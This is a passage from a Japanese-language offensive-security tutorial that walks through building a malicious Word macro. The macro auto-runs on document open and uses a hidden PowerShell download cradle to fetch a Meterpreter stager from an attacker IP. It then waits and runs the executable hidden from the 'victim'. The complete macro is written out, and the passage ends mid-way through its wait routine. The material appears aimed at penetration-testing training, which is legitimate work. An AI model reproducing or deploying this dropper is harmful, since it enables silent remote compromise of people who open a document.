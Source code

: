 概要として、PowerShellの文字列をVBAで動作するように変換して、ダウンロードクレードルをセットアップします。そして、システムにファイルをダウンロードする時間を与え、最後にファイルを実行します。  
VBAのコードを書き始めましょう。まず、文字列変数を宣言し、その文字列にPowerShellのダウンロードクレードルのコードを入力します。次に、Shellメソッドを使用して、ワンライナーを引数としてPowerShellを起動します。そして、Shellメソッドに、出力をユーザーから隠した状態でコードを実行するように指示します。
下記に示すコードセグメントは、被害者のマシンにファイルをダウンロードします。

```
Dim str As String
str = "powershell (New-Object System.Net.WebClient).DownloadFile('http://192.168.119.120/msfstaged.exe', 'msfstaged.exe')"
Shell str, vbHide
```

VBAを通じてMeterpreterの実行ファイルを実行するには、フルパスを指定する必要があります。幸いなことに、ダウンロードしたコンテンツはWordドキュメントのカレントフォルダーに収まるので、下記に示すようにActiveDocument.Pathプロパティでパス名を取得することができます。

```
Dim exePath As String
exePath = ActiveDocument.Path + "\msfstaged.exe"
```

Meterpreterの実行ファイルをWebサーバーからダウンロードしており、ダウンロード時間は変動する可能性があるため、時間遅延を導入する必要があります。残念ながら、Microsoft WordにはExcelのようなwaitやsleepのVBA関数がないので、DoループとNowおよびDateAdd関数を使ってカスタムWaitメソッドを実装することにします。
これにより、Waitパラメータ（秒単位）を渡して、実行を一時停止させることができます。WaitプロシージャがMicrosoft Wordをブロックしないように、各反復処理でDoEventsを呼び出し、他のアクションを処理できるようにします。
まず、Now関数で現在の日付と時刻を取得し、変数tに保存します。次に、Doループを使用して、Loop Untilステートメントで宣言された比較を通じて動作させます。

```
Sub Wait(n As Long)
    Dim t As Date
    t = Now
    Do
        DoEvents
    Loop Until Now >= DateAdd("s", n, t)
End Sub
```
このコードは、比較が真になるまでループし続けます。これは、（Nowが返す）現在時刻がDateAdd関数が返す時刻より大きい場合に起こります。この関数は、時間の間隔を表す文字列式（"s"）、待機する秒数（n）、現在の時刻（t）の3つの引数を取ります。

簡単に言うと、ループを開始した時刻に「n」秒を加算し、その結果を現在時刻と比較するのである。n "秒が経過したら、ループは終了する。  
Waitメソッドの実装ができたので、あとはそれを呼び出してMeterpreterの実行ファイルを実行するだけです。そのためには、再びShell関数を使用して、作成したexePathを呼び出すことになります。  
完全なVBAマクロは、下記になります。

```
Sub Document_Open()
    MyMacro
End Sub

Sub AutoOpen()
    MyMacro
End Sub

Sub MyMacro()
    Dim str As String
    str = "powershell (New-Object System.Net.WebClient).DownloadFile('http://192.168.119.120/msfstaged.exe', 'msfstaged.exe')"
    Shell str, vbHide
    Dim exePath As String
    exePath = ActiveDocument.Path + "\msfstaged.exe"
    Wait (2)
    Shell exePath, vbHide
End Sub

Sub Wait(n As Long)
    Dim t As Date
    t = Now
    Do
```